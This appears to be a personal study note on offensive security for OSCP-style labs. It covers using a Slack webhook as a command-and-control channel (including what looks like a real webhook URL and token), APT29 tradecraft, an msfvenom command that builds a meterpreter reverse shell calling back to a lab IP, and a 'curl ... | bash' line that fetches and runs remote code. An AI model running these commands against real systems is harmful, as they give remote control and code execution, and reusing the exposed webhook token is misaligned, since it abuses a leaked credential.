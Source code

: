# looking at ippsec techniques

# setting slack web hooks and C2
make the channel private
webhook integrations
https://hooks.slack.com/services/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

$body = COnvertTo-Json @{
    pretext = "Automated"
    text = "Hi there"
}
Invoke-RestMethod https://hooks.slack.com/services/
B0559PG99FC/Ej96lpmHngg1OV7htEKcfk3n -Method Post -Body $body -ContentType "application/json"

![](message_passed.png)

### using this as a C2

https://3xpl01tc0d3r.blogspot.com/2018/06/how-to-use-slack-as-c2-sever.html

using a slackshell


# analysing APT 29

https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/

APT 29 uses lnk files in a zip format

ippsec.rocks

uses dll injection into microsoft updater

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.49.144 LPORT=4444 -f bin -o shellcode.bin

we can create one by cat shellcode.bin | msfvenom -p - -f exe -a x64 --platform win -o pleasesubscribe.exe

we can open this up in x64dbg
needs to be done in x64dbg file


# oscp tj null list

bashed

`nmap -sC -sV -oA nmap/initial 10.10.10.65`

based on httpd version you can decide on th elinux kernel

you can execute the file by host ing it using smiple HHTPserver and then saying curl http://10.10.10.1/new | bash

LInenum.sh


